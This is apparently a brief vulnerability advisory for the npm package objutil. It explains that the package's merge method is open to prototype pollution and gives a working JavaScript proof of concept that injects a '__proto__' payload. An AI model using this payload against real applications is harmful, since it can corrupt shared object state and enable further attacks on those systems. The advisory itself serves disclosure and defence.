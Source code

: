 # Overview
[objutil](https://www.npmjs.com/package/objutil) is a Javascript Object util methods with deep traverse, with ES6 tree shaking methods.

Affected versions of this package are vulnerable to Prototype Pollution. The merge method could be tricked into adding or modifying properties of Object.prototype.

# Proof of Concept
```js
var a = { x:1,y:{ w:1, z:2 }}
var malicious_payload = '{"__proto__":{"vulnerable":"Polluted"}}';
var {merge, remove} = require('objutil')
result = merge(a,JSON.parse(malicious_payload));
console.log({}.vulnerable);
```
